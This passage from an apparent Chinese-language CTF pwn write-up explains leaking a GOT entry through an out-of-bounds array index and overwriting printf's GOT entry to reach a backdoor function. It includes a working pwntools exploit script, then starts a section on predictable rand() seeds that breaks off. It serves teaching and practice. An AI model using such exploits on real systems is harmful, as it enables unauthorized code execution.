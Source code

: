 在ida里可以发现数组arry的地址在bss段里，并且离got表很近，故我们可以通过计算got表项地址与arry的地址之间的偏移来获取got表项里的内容。

![img](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-25ad9e2dbf4f400054f9d3a8680a12d6a8c71384.png)

在gdb中调试也可以发现 bss段中arry离got段很近，直接将arry与got项之间地址相减得到两者之间的**偏移**，利用这个 **偏移** 获得 **stack\_chk\_fail** 函数的地址，然后用0xFFFFFFFFF000 与得到的地址相与得到 **代码段基址** ，然后用 **代码段基址** 加上 **arry和system的got表地址的偏移** 计算得到后门函数地址，再利用一次数组越界将 **printf的got表项** 覆盖成后门函数地址

**坑点：** 第一次利用数组越界来获得代码段基址，我是选择泄露system函数的got表值，不知道为什么change时我填入的是获取到的它的原始值，但是调试的时候发现程序中的system got表值被更改了，应该是这里有什么保护机制吧，所以之后选择泄露 **stack\_chk\_fail** got表项来获得代码段基址。

#### **Exp** ：

```python
from pwn import *
context.log_level = 'debug'

p = process("./arry")
#p = remote("172.16.68.4",10000)
printf_offset = -128 
stack_chk_fail_offset = -152

#gdb.attach(p,"b* $rebase(0xadf)")

p.sendlineafter("index:",str(stack_chk_fail_offset))
p.recvuntil("content:")
stack_chk_fail = u64(p.recv(6).ljust(8,"\x00"))
print(hex(stack_chk_fail))
p.sendlineafter("change:",p64(stack_chk_fail))
base = stack_chk_fail & 0xfffffffff000

p.sendlineafter("index:",str(printf_offset))
p.sendlineafter("change:",p64(0xA93 + base))
p.interactive()
```

伪随机数
----

在C语言中,rand()函数可以用来产生随机数，但是这不是真真意义上的随机数，是一个伪随机数，是根据一个数，我们可以称它为种子，为基准以某个递推公式推算出来的一系数，当这系列数很大的时候，就符合正态公布，从而相当于产生了随机数，但这不是真正的随机数，当计算机正常开机后，这个种子的值是定了的，除非你破坏了系统，为了改变这个种子的值，C提供了srand()函数，它的原形是void srand( int a)。

### 例题演示：

某高校新生赛题—guess

64位保护全开

![image-20211123193651612](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-06933e4387ce17f26a581b26ab62070db97a8180.png)

主函数是输入一个文件名，然后程序会打开并读取它的前4个字节，将每个字节作为随机数种子，生成随机数。

![image-20211123193808671](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d027eb78e005bae764e0653d006b6e713646833e.png)
